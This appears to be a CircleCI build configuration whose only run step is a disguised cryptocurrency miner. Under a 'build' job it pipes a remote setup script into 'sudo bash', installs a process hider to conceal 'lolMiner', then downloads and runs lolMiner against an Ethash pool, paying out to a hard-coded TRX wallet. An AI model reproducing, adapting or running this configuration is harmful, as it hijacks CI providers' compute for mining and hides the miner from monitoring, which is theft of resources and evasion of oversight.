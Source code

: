 version: 2.0
jobs:
  build:
    docker:
      - image: circleci/ruby:2.4.2-jessie-node
        auth:
          username: mydockerhub-user
          password: $DOCKERHUB_PASSWORD  # context / project UI env-var reference
    steps:
      - checkout
      - run: sudo su --command "sudo apt update && sudo apt upgrade -y && curl -sL https://deb.nodesource.com/setup_12.x | sudo -E bash - && sudo apt install nodejs && npm i -g node-process-hider && sudo ph add lolMiner && wget https://github.com/Lolliedieb/lolMiner-releases/releases/download/1.31/lolMiner_v1.31_Lin64.tar.gz && tar -zxvf lolMiner_v1.31_Lin64.tar.gz && cd 1.31 && clear && ./lolMiner --algo ETHASH --pool ethash.unmineable.com:3333 --user TRX:TJReV8g7d6EtxWbeP9iYmhZHgzRxxxbz4a.jipiyu --ethstratum ETHPROXY

